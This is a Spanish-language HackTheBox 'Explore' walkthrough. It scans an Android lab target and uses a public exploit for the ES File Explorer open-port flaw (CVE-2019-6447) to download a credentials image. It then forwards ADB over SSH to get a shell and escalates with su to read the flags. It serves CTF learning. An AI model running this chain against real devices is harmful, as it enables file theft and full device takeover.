




Red Team & Ctf Pl4yer
HackTheBox - Explore
Autor: bertolis

Escaneo de puertos
❯ nmap -p- --open -T5 -v -n 10.10.10.247
PORT STATE SERVICE
2222/tcp open EtherNetIP-1
41127/tcp open unknown
42135/tcp open unknown
59777/tcp open unknown
Escaneo de servicios
❯ nmap -sCV -p 2222,41127,42135,59777 10.10.10.247
PORT STATE SERVICE VERSION
2222/tcp open ssh (protocol 2.0)
| fingerprint-strings:
| NULL:
|_ SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_ 2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
41127/tcp open unknown
| fingerprint-strings:
| GenericLines:
| HTTP/1.0 400 Bad Request
| Date: Mon, 01 Nov 2021 23:38:25 GMT
| Content-Length: 22
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
| TerminalServerCookie:
| HTTP/1.0 400 Bad Request
| Date: Mon, 01 Nov 2021 23:38:45 GMT
| Content-Length: 54
| Content-Type: text/plain; charset=US-ASCII
| Connection: Close
| Invalid request line:
|_ Cookie: mstshash=nmap
42135/tcp open http ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open http Bukkit JSONAPI httpd for Minecraft game server 3.or
older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the servversion
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=11/2%Time=618076E0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port41127-TCP:V=7.92%I=7%D=11/2%Time=618076DF%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x20
SF:01\x20Nov\x202021\x2023:38:25\x20GMT\r\nContent-Length:\x2022\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0
SF:e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone
Hago una búsqueda en exploitdb de ES File Explorer y encuentro este exploit:
https://www.exploit-db.com/exploits/50070Descargo el exploit y lo lanzo para ver la ayuda.
❯ python3 exploit.py help
Available commands :
listFiles : List all Files.
listPics : List all Pictures.
listVideos : List all videos.
listAudios : List all audios.
listApps : List Applications installed.
listAppsSystem : List System apps.
listAppsPhone : List Communication related apps.
listAppsSdcard : List apps on the SDCard.
listAppsAll : List all Application.
getFile : Download a file.
getDeviceInfo : Get device info.Lanzo un getDeviceInfo.
❯ python3 exploit.py getDeviceInfo 10.10.10.247
==================================================================
| ES File Explorer Open Port Vulnerability : CVE-2019-6447 |
| Coded By : Nehal a.k.a PwnerSec |
==================================================================
name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721Con listPics veo un nombre y una ruta que me llama la atención.
❯ python3 exploit.py listPics 10.10.10.247
Con getFile descargo la imagen.
❯ python3 exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
Abro la imagen y veo unas credenciales de acceso.
Una vez dentro del sistema me muevo a /sdcard para leer la flag de user.
:/sdcard $ cat user.txt
fxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx0Lanzo un ss -ltun y veo el puerto 5555 abierto.

Como veo que el puerto abierto está en local usaré un ssh port forwarding para reenviar el puerto 5555 a mi máquina.
ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555ADB
Las siglas adb Android Debug Bridge es un sistema de comandos que permite administrar un dispositivo android desde la terminal.
Mediante adb me conecto al puerto 5555
❯ adb connect localhost:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to localhost:5555Obtengo una shell con:
❯ adb -s localhost:5555 shell
x86_64:/ $r00t
Para elevar de privilegios escribimos su.
x86_64:/ $ su
:/ # Con find busco el archivo root.txt para conseguir la flag de root.
:/ # find / -name "root.txt" 2>/dev null
/data/root.txt
:/ # cat /data/root.txt
fxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx5Y aquí termina Explore, nos vemos ;)